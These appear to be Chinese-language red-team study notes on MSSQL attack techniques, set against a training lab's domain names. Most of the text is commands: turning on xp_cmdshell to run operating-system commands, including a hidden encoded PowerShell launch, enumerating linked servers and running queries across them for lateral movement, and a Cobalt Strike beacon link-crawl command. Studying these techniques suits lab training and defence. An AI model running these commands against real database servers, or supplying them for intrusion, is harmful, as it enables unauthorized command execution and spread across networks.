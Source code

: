 dev\svc_mssql
```

原生MSSQL使用``` xp_cmdshell ```命令
```
EXEC xp_cmdshell 'whoami';
```

查看xp_cmdshell是否开启
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

value=0,表示没有开启


开启xp_cmdshell功能
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

执行powershell命令
```
EXEC xp_cmdshell 'powershell -w hidden -enc <blah>';
```

## MS SQL Lateral Movement

1. 获取实例

## 方法一，手动抓取

枚举当前机器的mssql的实例
```
SELECT * FROM master..sysservers;
```


可以利用上面的实例运行sql语句

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

**注意，上面实例使用双引号，sql语句使用单引号。**


查看某个实例是否有xp_cmdshell权限
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```

如果被禁用，开启xp_cmdshell
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target instance]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target instance]
```

## 方法二，自动抓取 


使用```Get-SQLServerLinkCrawl```命令

```
beacon> powershell Get-SQLServerLinkCrawl -Instance "srv-1.dev.cyberbotic.io,1433"
